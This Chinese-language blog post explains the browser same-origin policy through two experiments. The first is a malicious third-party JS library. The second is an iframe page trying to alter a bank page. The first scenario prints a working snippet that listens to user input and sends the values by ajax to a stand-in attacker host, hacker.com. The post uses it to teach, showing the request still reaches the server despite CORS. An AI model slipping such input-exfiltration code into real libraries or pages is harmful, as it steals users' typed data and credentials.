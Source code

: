 ```yaml
---
title: 同源策略
---
```


<p class="lead">
	本文讨论浏览器上的同源策略，分析同源策略已解决的问题，以及目前还存在什么问题。
</p>

首先，我们先不看什么是同源策略，先来想一些可能的web安全方面的隐患：

* <a name="s1">**情景1：**</a>假如我写了一个通用的js库，被很多开发者引用，但他们不知道我在里面偷偷加了一些恶意代码：getInputValAndSendToDB()。这个方法的主要功能是监听用户的键盘输入，并将输入的值通过ajax或JSONP等形式发送到我的服务器并存储到数据库中。

代码看起来可能像这样：
{% highlight js %}
var other = (function () {
    var getInputValAndSendToDB = function() {
        $('#text').on('change', function () {
            var val = $(this).val();
            send(val);
        });
    }
    var send = function (data) {
        $.get('http://www.hacker.com/?data=' + data, function (data) {
            console.log('来自第三方JS库的消息:');
            console.log(data);
        });
    };
    $(function () {
        getInputValAndSendToDB();
    });
})();
{% endhighlight %}

* **情景2：**再假如我写了一个html页面，里面只有个iframe元素，src属性设置为某个银行主页的地址。我还申请了一个和该银行主页类似的域名，最后将页面部署到Internet上。当有人打开这个页面，他们看到的内容和真正打开银行主页所看到的内容没有任何差别，但他们不知道其实我还在页面中加入了一段js代码，例如上面的getInputValAndSendToDB方法，监听银行主页的用户名input以及密码input，或者将银行页面中的某个链接的href属性改成其它钓鱼网站的地址，诱使用户在钓鱼网站上输入他们的用户名、密码、银行卡号等信息。

好，现在我们有了两个情景，那这两种情景是否有可能在浏览器中发生呢？接下来我们通过实验的方式来验证一下。

情景1实验方案：

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(第三方JS库提供者)端口
* 开发者: 引用第三方提供的JS库: other.js。页面中放置一个input标签
* 第三方: 提供other.js，并在other.js中写入[情景1](#s1)中提到的恶意代码
* 实验过程: 在开发者页面的input中输入值，看是否会被发送到第三方服务器

情景1实验过程:

1. 开发者页面输入值, input的change事件被触发，向第三方服务器发送ajax请求: 
![Small example image](https://yangfan44777.github.io/blog/1.png "Small example image")

2.查看浏览器控制台:
![Large example image](https://yangfan44777.github.io/blog/2.png "Large example image")
从控制台我们看到发送用户输入的ajax请求所返回的数据被拒绝接收了，原因是发送请求的js的源与被请求地址的源不同。那么第三方服务器是否都到了请求呢？我在第三方服务器的终端输出了请求参数, 发现可以收到。

从错误信息中还能看到，被拒绝接收的原因是返回的header中没有设置Access-Control-Allow-Origin的值。接下来我在第三方服务器返回的header中加入了Access-Control-Allow-Origin:*，开发者端再次发送请求，此时浏览器控制台不再报错了，正确接受了第三方数据。
![Large example image](https://yangfan44777.github.io/blog/3.png "Large example image")

通过第一个实验，可以看出，不管第三方返回的header中是否设置了Access-Control-Allow-Origin，第三方服务器都可以接收到不同域发来的请求。

情景2实验方案：

* 环境：使用nodejs启动两个服务，我这里分别监听了8110(开发者)和8111(银行主页)端口
* 开发者页面: 两个iframe，分别加载银行主页和自己域名下的页面，并通过js修改两个iframe中的a标签href属性
* 实验过程: 查看两个iframe中的内容是否被修改成功

情景2实验过程：

1. 开发者页面嵌入两个iframe，如下:
<img src="https://yangfan44777.github.io/blog/4.png" width="50%"/>

2. 开发者页面写入js的代码，如下:
{% highlight js %}

$(function () {
    setTimeout(function () {
		try{
			/* 选取非同源iframe中的a标签 */
		    var target_a = $("#iframe")
		    	.contents()
		    	.find("#target_a");
		    /* 修改非同源iframe中的内容 */
		    target_a.attr("href", "#new");
		} catch (e) {
    		console.log('修改非同源页面内容报错:', e);
		}
	/* 选取同源iframe中的a标签 */
    var target_a_self = $("#iframe_self")
    	.contents()
    	.find("#target_a");
    /* 修改同源iframe中的内容 */
    target_a_self.attr("href", "#new");
},1000);
});

{% endhighlight %}

3.查看浏览器控制台:
![Large example image](https://yangfan44777.github.io/blog/5.png "Large example image")
从控制台我们看到，在获取银行页面的a标签时，抛出了DOMException。而同源下的a标签href属性被修改成功。

通过第二个实验，发现非同源的页面是无法通过js相互读取和修改的。

